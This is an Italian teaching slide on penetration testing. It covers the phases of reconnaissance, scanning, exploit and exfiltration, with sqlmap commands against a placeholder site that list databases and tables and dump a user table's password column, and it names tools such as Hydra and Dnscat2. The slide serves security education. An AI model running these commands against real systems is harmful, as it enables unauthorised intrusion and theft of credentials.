

# Cosè il Penetration Testing
Ricognizione: controllo se il sito è vulnerabbile
Sqlmap –u «http://sito.com/login.php?id=1» --dbs

Scansione: cerchiamo ciò che ci interessa
Sqlmap –u «http://sito.com/login.php?id=1» -D data --tables

exploit: usiamo questa vulnerabilità per estrarre delle password
Sqlmap –u «http://sito.com/login.php?id=1»

esfiltrazione: estraiamo le password dal database
Sqlmap –u «http://sito.com/login.php?id=1» -D data –T user –C password --dump

Il penetration testing o pen testing  è la procedura in cui si testa un sistema, network o applicazione web per trovare delle vulnerabilità che un attaccante potrebbe sfruttare.

Le principali fasi del Pen Testing
Esfiltrazione

Dnscat 2

Report

OpenVAS

Scansione

Nmap
Wireshark
Exploit

Hydra
SQLmap
Ricognizione

Recon –ng
Maltego